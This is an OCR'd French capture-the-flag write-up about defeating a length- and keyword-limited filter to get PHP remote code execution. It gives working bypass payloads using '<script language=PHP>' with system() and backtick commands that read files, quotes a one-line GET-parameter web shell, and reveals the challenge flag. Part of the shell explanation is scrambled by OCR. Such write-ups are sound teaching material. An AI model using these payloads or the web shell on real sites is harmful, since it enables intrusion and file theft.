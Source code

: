 # Misc 250 - Outsmarter Filter

L'énonce nous indique que nous devons réaliser une RCE pour
valider l'épreuve mais qu'un filtre est présent. Le filtre recherche :
- Texte de moins de 42 caractères
- Banissement des mots clefs : eval shell exec popen php
- Banissement des opérateurs : ? et ; et $

On va essayer d'injecter du code PHP pour faire notre RCE, nous
testons un simple :
> <?php echo "test"; ?>

Le filtre détecte nos "?", ";" et "php". Après avoir regardé la documentation on apprend qu'il est possible
de remplacer <?php par <script language=php>, on est débarrassé de nos "?" mais de notre "php".

Et si le script n'était pas sensible à la casse ? On teste notre payload avec "PHP"


<script language=PHP>echo 'Hello'</script>
taille : 42



Celui-ci s'exécute, nous avons donc passé la première partie du challenge, nous sommes capables
d'injecter des commandes PHP. Il nous faut maintenant trouver le flag, la première idée est de lister les
fichiers et dossiers. On essaie donc un appel à system car il n'est pas bloqué :)

<script language=PHP>system('ls')</script>
taille : 42

Le script fonctionne mais on n'obtient rien d'interesssant, on essaie d'afficher les fichiers cachés

<script language=PHP>system('ls -a')</script>
taille : 45


Malheureusement notre payload est trop grand 45 caractères alors que la limite est de 42..Il nous faut
trouver un moyen de le réduire.

Après quelques recherches sur "Mini Shell PHP", on trouve celui-ci : <?=@`$_GET[c]`; Il n'est pas
adapté à cause de ses ";" et "?" mais on va le modifier pour l'utiliser.
Explication du shell
<?=@`$_GET[c]`;
| |
| |
|
------>
Execute
la
commande
système
grace
aux
backticks
:
| ------------> Récupère une commande par GET
----------------> Enleve les erreurs
On peut donc remplacer system('ls') par echo `ls`. Notre payload devient donc :
<script language=PHP>echo `ls`</script>
taille : 39
Parfait la taille est respectée mais on a toujours pas de fichier intéressant. Nous voulons alors inspecter
le contenu d'index.php :
<script language=PHP>echo `cat index.php`</script> taille 50
La taille de notre script est trop grande, on le réduit encore :
<script language=PHP>echo `cat i*`</script> taille 43
<script language=PHP>echo `cat *`</script> taille 42
<script language=PHP>echo`cat *`</script> taille 41
Le contenu des fichiers s'affiche, on peut voir le flag dans index.php “Well done, you found the flag :
**ese{RCE_4ll_th3_dummy_WAFs}**“